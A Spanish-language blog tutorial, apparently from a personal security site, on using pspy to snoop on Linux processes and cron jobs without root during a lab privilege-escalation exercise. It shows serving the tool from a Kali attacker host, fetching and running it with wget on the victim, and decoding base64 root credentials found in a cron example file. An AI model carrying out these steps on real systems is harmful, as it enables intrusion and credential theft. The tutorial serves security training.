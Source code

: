 ```yaml
---
date: 2022-05-20T01:30:05.000Z
layout: post
comments: true
title: PSPY
subtitle: 'indagación de procesos de Linux sin privilegios'
description: >-
image: >-
    http://imgfz.com/i/txa5R0l.png
optimized_image: >-
    http://imgfz.com/i/txa5R0l.png
category: ciberseguridad
tags:
  - privilegios
  - CRON
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es una herramienta de línea de comandos diseñada para husmear en los procesos sin necesidad de permisos de root. Le permite ver los comandos ejecutados por otros usuarios, trabajos cron, etc. mientras se ejecutan.

### Transferencia

Primero desde nuestra máquina atacante nos creamos un servidor web para descargarlo desde la máquina víctima ```pspy```:

```bash
┌──(root㉿kali)-[/opt/pspy]
└─# python -m http.server     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
-127.0.0.1 - - [10/May/2022 03:21:48] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [10/May/2022 03:21:49] code 404, message File not found
127.0.0.1 - - [10/May/2022 03:21:49] "GET /favicon.ico HTTP/1.1" 404 -
10.1.1.22 - - [10/May/2022 03:23:34] "GET /pspy64 HTTP/1.1" 200 -
```

Ahora lo descargamos desde la máquina víctima:

```bash
www-data@demo:/tmp$ wget http://10.1.1.19:8000/pspy64
--2022-05-10 09:23:33--  http://10.1.1.19:8000/pspy64
Connecting to 10.1.1.19:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: 'pspy64'

pspy64                        100%[==============================================>]   2.94M  --.-KB/s    in 0.03s   

2022-05-10 09:23:33 (115 MB/s) - 'pspy64' saved [3078592/3078592]

www-data@demo:/tmp$ ls
pspy64
```

### Ejecución

Ahora procedemos a asignar los permisos correspondientes y lo ejecutamos:

```bash
www-data@demo:/tmp$ chmod +x pspy64 
www-data@demo:/tmp$ ./pspy64
```
![1](http://imgfz.com/i/kHrpMmB.png)

Al ejecutarlo podemos ver los procesos en ejecución y si seguimos bajando detectaremos tareas CRON:

![2](http://imgfz.com/i/1QnWA0M.png)

CRON es un administrador regular de procesos en segundo plano, que ejecuta procesos o guiones a intervalos regulares (por ejemplo, cada minuto, día, semana o mes). Esto significa que pueden ser utilizados de forma maliciosa para detectar archivos que puedan servir para escalar privilegios, o bien encontrar datos sensibles expuestos. Por ejemplo:

![3](http://imgfz.com/i/O2bo61d.png)

```bash
www-data@demo:/tmp$ cd ..
www-data@demo:/$ cat /usr/share/doc/examples/cron.sh

# cron.sh sample file
# 0 20 * * * /bin/goahead --parameter: LXUgcm9vdCAtcCByZnZiZ3QhIQ==

┌──(root㉿kali)-[/pspy]
└─# echo 'LXUgcm9vdCAtcCByZnZiZ3QhIQ==' | base64 -d; echo
-u root -p rfvbgt!!
```

En este caso se encontraron credenciales expuestas en la máquina!
